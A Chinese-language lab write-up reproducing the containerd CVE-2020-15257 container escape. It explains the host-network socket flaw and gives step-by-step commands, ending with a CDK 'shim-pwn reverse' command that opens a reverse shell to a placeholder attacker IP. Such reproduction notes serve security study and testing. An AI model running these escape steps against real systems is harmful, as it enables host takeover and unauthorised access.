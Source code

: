 # Containerd漏洞导致容器逃逸（CVE-2020-15257）

## 场景介绍

Containerd是一个控制runC的守护进程，提供命令行客户端和API，用于在一个机器上管理容器。

在版本1.3.9之前和1.4.0~1.4.2的Containerd中，由于在**网络模式为host**的情况下，容器与宿主机共享一套Network namespace ，此时containerd-shim API暴露给了用户，而且访问控制仅仅验证了连接进程的有效UID为0，但没有限制对抽象Unix域套接字的访问，刚好在**默认情况下，容器内部的进程是以root用户启动**的。在两者的共同作用下，容器内部的进程就可以像主机中的containerd一样，连接containerd-shim监听的抽象Unix域套接字，调用containerd-shim提供的各种API，从而实现容器逃逸。

## 环境搭建

漏洞环境准备：

```bash
./metarget cnv install cve-2020-15257
```

## 漏洞复现

使用以下命令启动容器:

```bash
sudo docker run -it --net=host --name=15257 ubuntu /bin/bash
```

在容器内执行命令`cat /proc/net/unix|grep -a "containerd-shim"`，查看结果确认是否可看到抽象命名空间Unix域套接字:

![image-20210618151008778](images/1.png)

在攻击端监听1234端口，然后下载漏洞利用工具cdk（https://github.com/cdk-team/CDK）并将其传入容器/tmp目录下：

```bash
sudo docker cp cdk_linux_amd64 15257:/tmp
sudo docker exec -it 15257 bash
```

运行工具，执行反弹shell命令,验证得到一个宿主机的shell:

```bash
cd /tmp
./cdk_linux_amd64 run shim-pwn reverse attacker-ip port
```

## 参考文献

1. https://mp.weixin.qq.com/s/WmSaLPnG4o4Co1xRiYCOnQ
2. https://www.cdxy.me/?p=837